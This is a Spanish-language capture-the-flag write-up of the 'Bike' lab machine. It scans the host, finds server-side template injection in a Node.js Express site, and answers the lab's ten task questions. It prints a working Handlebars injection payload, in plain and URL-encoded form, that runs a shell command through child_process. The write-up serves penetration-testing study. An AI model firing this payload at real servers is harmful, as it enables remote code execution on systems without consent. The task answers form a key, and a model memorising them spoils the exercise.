 # Bike

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Custom Applications (Aplicaciones Personalizadas):** Son aplicaciones desarrolladas específicamente para satisfacer necesidades particulares de una organización. A menudo, estas aplicaciones no se desarrollan siguiendo las mejores prácticas de seguridad, lo que puede dar lugar a vulnerabilidades. Dado que son personalizadas, pueden ser difíciles de mantener y auditar, lo que aumenta el riesgo de ser objetivo de un ataque si no se gestionan adecuadamente.
  * **NodeJS:** Es un entorno de ejecución para JavaScript en el servidor, ampliamente utilizado para construir aplicaciones web escalables y rápidas. Aunque es potente y flexible, si no se implementa correctamente o se usan dependencias inseguras, NodeJS puede ser vulnerable a ataques como la ejecución remota de código o la inyección de dependencias maliciosas.
  * **Reconnaissance (Reconocimiento):** Es una fase inicial crucial en el proceso de pruebas de penetración, en la que se recopila información sobre el objetivo. Esto incluye escaneo de puertos, identificación de servicios y posibles vulnerabilidades, y análisis de la infraestructura. El objetivo del reconocimiento es descubrir posibles puntos de entrada y explotar configuraciones incorrectas.
  * **Remote Code Execution (Ejecución Remota de Código):** Es una vulnerabilidad crítica que permite a un atacante ejecutar código malicioso en el sistema de la víctima de manera remota. Puede explotarse a través de diversos vectores como aplicaciones web, servicios mal configurados o vulnerabilidades en el software. La ejecución remota de código pone en peligro la integridad y la confidencialidad de los sistemas afectados.
  * **Server Side Template Injection (SSTI) (Inyección de Plantillas del Lado del Servidor):** Es una vulnerabilidad que ocurre cuando un atacante puede inyectar código malicioso en las plantillas del lado del servidor, lo que permite la ejecución de código en el servidor. Esta vulnerabilidad puede ser utilizada para ejecutar comandos del sistema operativo, robar datos o comprometer el servidor, especialmente si el sistema de plantillas no valida correctamente los datos introducidos por el usuario.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.97.64
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -sCV -Pn 10.129.97.64
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** correspondiente a **HTTP** están abiertos. A continuación, se indagará más sobre estos servicios.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 181725.png" alt=""><figcaption></figcaption></figure>

Vemos la información de la página.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2025-02-13 182158.png" alt=""><figcaption></figcaption></figure>

Ponemos `{{7*7}}` para ver si tenemos una vulnerabilidad SSTI.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Copiamos el payload de Node.js.

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html" %}

```bash
wrtz{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

```

Codificamos el código en formato URL y lo pegamos en el campo email de la petición.

```bash
%77%72%74%7a%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%2e%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%53%79%6e%63%28%27%63%61%74%20%2f%72%6f%6f%74%2f%66%6c%61%67%2e%74%78%74%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d%0a
```

### 5. 🔑 **Captura de la Flag**

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

**Task 1:** ¿Qué puertos TCP identifica nmap como abiertos? Responde con una lista de puertos separados por comas y sin espacios, de menor a mayor.

* **22,80**

**Task 2:** ¿Qué software está ejecutando el servicio que escucha en el puerto HTTP/web identificado en la primera pregunta?

* **node.js**

**Task 3:** ¿Cuál es el nombre del marco web según Wappalyzer?

* **express**

**Task 4:** ¿Cuál es el nombre de la vulnerabilidad que probamos enviando \{{7\*7\}}?

* **Server Side Template Injection**

**Task 5:** ¿Cuál es el motor de plantillas que se está utilizando dentro de Node.js?

* **handlebars**

**Task 6:** ¿Cuál es el nombre de la pestaña de BurpSuite utilizada para codificar texto?

* **decoder**

**Task 7:** Para enviar caracteres especiales en nuestra carga útil en una solicitud HTTP, codificamos la carga útil. ¿Qué tipo de codificación usamos?

* **url**

**Task 8:** Cuando usamos una carga útil de HackTricks para intentar ejecutar comandos del sistema, obtenemos un error. ¿Qué es lo que "no está definido" en el error de respuesta?

* **require**

**Task 9:** ¿Qué variable es tradicionalmente el nombre del ámbito de nivel superior en el contexto del navegador, pero no en Node.js?

* **global**

**Task 10:** Al explotar esta vulnerabilidad, obtenemos ejecución de comandos como el usuario que ejecuta el servidor web. ¿Cuál es el nombre de ese usuario?

* **root**
